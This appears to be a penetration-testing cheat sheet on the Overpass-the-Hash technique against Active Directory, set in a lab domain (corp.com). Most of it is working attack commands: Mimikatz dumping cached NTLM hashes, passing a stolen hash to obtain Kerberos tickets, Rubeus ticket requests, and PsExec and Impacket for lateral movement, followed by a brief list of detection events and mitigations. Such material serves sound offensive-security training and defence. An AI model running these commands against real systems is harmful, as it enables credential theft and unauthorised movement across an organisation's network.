 ### **Overpass the Hash (OtH)**  
*Convert NTLM hashes to Kerberos tickets for stealthy lateral movement.*  

---

#### **Conditions for Success**  
1. **Cached Credentials**:  
   - Target user must have authenticated to the compromised machine (credentials cached).  
2. **Kerberos Availability**:  
   - Domain must use Kerberos (default in Active Directory).  
3. **Local Admin Rights**:  
   - Attacker needs local admin on the compromised machine to dump hashes.  

---

### **Steps & Examples**  

#### **1. Dump Cached Credentials**  
*Use Mimikatz to extract NTLM hashes:*  
```powershell
privilege::debug          # Elevate to DEBUG privileges
sekurlsa::logonpasswords  # Dump cached credentials
```  
**Output**: Look for `NTLM: 369def79d8372408bf6e93364cc93075` (jen's hash).  

---

#### **2. Generate Kerberos TGT**  
*Use Mimikatz to spawn a process with the stolen hash:*  
```powershell
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```  
- A new PowerShell window opens (still shows original user via `whoami` but has jen's Kerberos tickets).  

---

#### **3. Request Kerberos Tickets**  
*Trigger TGT generation by accessing a network resource:*  
```powershell
net use \\files04          # Access SMB share
# OR
dir \\dc01.corp.com\C$     # List directory
```  
**Result**: Kerberos TGT/TGS tickets are cached.  

---

#### **4. Verify Tickets**  
```powershell
klist  # List cached Kerberos tickets
```  
**Expected Output**:  
```plaintext
Ticket 0: krbtgt/CORP.COM@CORP.COM (TGT)  
Ticket 1: cifs/files04.corp.com@CORP.COM (TGS)  
```

---

#### **5. Lateral Movement with Kerberos**  
*Use tools that leverage Kerberos authentication:*  
- **PsExec (Kerberos)**:  
  ```powershell
  .\PsExec.exe \\files04 cmd.exe  # Uses cached TGS for auth
  ```  
- **Impacket (Linux)**:  
  ```bash
  impacket-psexec -k -no-pass corp.com/jen@files04
  ```  

---

### **Key Notes**  
- **Why `whoami` Doesn’t Change**:  
  - `whoami` reflects the **process token** (original user), but Kerberos tickets are stored in the **logon session**.  
- **Alternatives to `net use`**:  
  - Any Kerberos-authenticated action: `schtasks`, `sc.exe`, or accessing shares (`dir \\dc01\admin$`).  
- **Tool Alternatives**:  
  - **Rubeus**: `Rubeus asktgt /user:jen /domain:corp.com /rc4:369def79d8372408bf6e93364cc93075 /nowrap`  

---

### **Detection & Mitigation**  
**Detection**:  
- **Event ID 4768**: Kerberos TGT requests from unexpected users.  
- **Event ID 4624**: Logon Type 3 (Network) followed by Kerberos activity.  

**Mitigation**:  
- Restrict local admin privileges.  
- Enable **AES encryption** for Kerberos (disable RC4).  
- Use **LAPS** for unique local admin passwords.  
- Monitor for `sekurlsa::pth` (Mimikatz) usage.  

---

### **References**  
- [Microsoft Kerberos Docs](https://learn.microsoft.com/en-us/windows/win32/secauthn/ticket-granting-tickets)  
- [Mimikatz Guide](https://github.com/gentilkiwi/mimikatz/wiki)  

